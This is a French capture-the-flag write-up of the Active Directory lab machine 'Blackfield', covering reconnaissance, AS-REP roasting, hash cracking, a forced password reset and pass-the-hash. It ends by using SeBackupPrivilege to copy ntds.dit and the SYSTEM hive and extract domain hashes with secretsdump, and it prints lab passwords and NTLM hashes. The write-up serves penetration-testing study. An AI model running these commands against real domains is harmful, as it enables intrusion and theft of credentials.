# Infos



# Recon

## Nmap TCP base

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-29 14:41:16Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

On retrouve le domaine `blackfield.local` que l'on peut ajouté dans `/etc/hosts`. Et le nom d'hôte `DC01`.

## Nmap TCP full

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-29 15:24:37Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Nmap TCP UDP

```
PORT   STATE SERVICE
53/udp open  domain
```

# Enumération
## Port 53/tcp - DNS

Enumération de tous les enregistrements DNS

`dig ANY blackfield.local @10.129.23.174`

On retrouve le NS `dc01.blackfield.local` que l'on ajoute à /etc/hosts


Tentative de transfert de zone, mais ça ne donne rien.

`dig axfr blackfield.local @10.129.23.174`

## Port 135/tcp - MSRPC

Enumération RPC en null session, mais ça ne donne rien

`rpcclient -U '%' 10.129.23.174`

## Port 389/tcp - LDAP

Récupérer des informations avec ldapsearch.py, notamment la version du serveur Windows.

`ldapsearch-ad.py --server "blackfield.local" --type info`



Si on tente une énumération LDAP null bind, ça ne donne rien

`ldapsearch -H ldap://blackfield.local -x -b "DC=blackfield,DC=local"`



## Port 445/tcp - SMB

Tentative d'énumération en anonymous, mais nope :(

`netexec smb blackfield.local -u '' -p '' --shares`

En revanche, ça fonctionne avec un compte au hasard, par exemple `luks`

`netexec smb blackfield.local -u 'luks' -p '' --shares`



On retrouve plusieurs partages inhabituels :
- forensic
- profiles$ -> READ

Si on consulte la [doc](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-shares-and-access), on peut également filtrer pour afficher uniquement les shares accessibles en READ/WRITE.

`netexec smb blackfield.local -u 'luks' -p '' --shares --filter-shares READ WRITE`



On peut énumérer `profiles$` et on retrouve plusieurs dossiers utilisateurs vides.

`smbclient //10.129.23.174/profiles$`



Pour récupérer seulement les utilisateurs on peut utiliser awk

`smbclient '//10.129.23.174/profiles$' -N -c ls | awk '{print $1}' > users.lst`



Maintenant qu'on dispose d'une liste d'utilisateurs valides, on peut tenter une attaque ASreproast pour voir si des utilisateurs ont la pré-auth kerberos de désactivé.

`GetNPUsers.py -request -format john -outputfile ASREProastables.txt -usersfile users.lst -dc-ip blackfield.local blackfield.local/`

Ca fonctionne et on retrouve le hash du compte `blackfield.local\support`



On peut tenter de le cracker avec JtR et la wordlist rockyou

```
john --wordlist=`fzf-wordlists` ASREProastables.txt
```



Ca fonctionne et on retrouve le mdp `#00^BlackKnight`. On a pu voir lors du scan nmap TCP full que le port 5985/winrm était ouvert. On peut essayer de se connecter avec evil-winrm.

`evil-winrm -u support -p '#00^BlackKnight' -i 10.129.23.174`

Ca ne fonctionne pas



C'est parce qu'il ne fait pas parti du groupe `Remote Management Users`



Mais comme on dispose d'un compte, on peut utiliser bloodhound

```
bloodhound.py --zip -c All -d blackfield.local -u support -p '#00^BlackKnight' -dc blackfield.local -ns 10.129.23.174
neo4j start
bloodhound
```

En mettant l'utilisateur `support` comme compromis et on regardant un peu les possibilités, si on clique sur `First Degree Object Control` dans la partie `Outbound object control`, on peut voir qu'il peut forcer le changement de mot de passe du compte `audit2020`.



On peut le faire en RPC

`net rpc password 'audit2020' 'Pentest123!' -U blackfield.local/support%'#00^BlackKnight' -S blackfield.local`



### Foothold - svc_backup

Si on énumère les shares de notre nouvel utilisateur `audit2020`, on peut voir qu'il a accès en lecture au share `forensic`.



On se connecte au share et on retrouve trois dossiers :
- commands_output -> sorties de commande classiques (utilisateurs du domaine, processus, systeminfo)
- memory_analysis -> fichiers d'analyse mémoire (lsass, winlogin, etc)
- tools -> outils tel que volatility, sysinternals etc.



Dans le répertoire `memory_analysis`, on retrouve un fichier `lsass.DMP`



Extraction du .zip et utilisation de pypykatz pour retrouver les secrets comme des hashs

`pypykatz lsa minidump lsass.DMP`



On retrouve deux hashs

```
svc_backup:9658d1d1dcd9250115e2205d9f48400d
Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```

On peut utiliser evil-winrm pth pour se connecter au compte svc_backup

`evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.129.23.174`


Récupération du premier flag



### Elévation de privilèges - Administrator

Si on tente la même chose avec le compte Administrator, ça ne fonctionne pas avec evil-winrm et psexec. En revanche, on a vu avec bloodhound que si on disposait d'un shell avec svc_backup sur dc01.blackfield.local, on pouvait DCSync.



Mais le DCSync ne fonctionne pas. L'utilisateur dispose des privilèges `SeBackupPrivilege`, ce qui veut dire que l'on peut récupérer la base SAM et SYSTEM et dump les hash localement

On peut voir à la racine un fichier `notes.txt` qui nous explique que le flag root.txt a été chiffré



On peut utiliser cet [article](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) pour PE, notamment la partie `Exploiting Privilege on Domain Controller (Method 1)`

On commence par créer un fichier luks.dsh et on utilise unix2dos

```
vim luks.dsh
set context persistent nowriters
add volume c: alias luks
create
expose %luks% z:
unix2dos luks.dsh
```



Créer un dossier dans C:\temp et upload le fichier, puis utiliser diskshadow pour créer une copie du disque C: en Z: et enfin utiliser robocopy du disque Z: vers le répertoire temp.

```
cd C:\Temp
upload luks.dsh
diskshadow /s luks.dsh
robocopy /b z:\windows\ntds . ntds.dit
```



Maintenant que l'on récupéré la base ntds.dit, on peut récupérer la ruche SYSTEM

```
reg save hklm\system c:\temp\SYSTEM
```



On récupère le tout sur la machine d'attaque avec la commande `download`, enfin, on utilise secretsdump ou pypykatz pour récupérer les hashs

`secretsdump.py -system SYSTEM LOCAL -ntds ntds.dit`



`Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::`

Connexion avec evil-winrm et récupération du dernier flag

`evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.129.23.174`


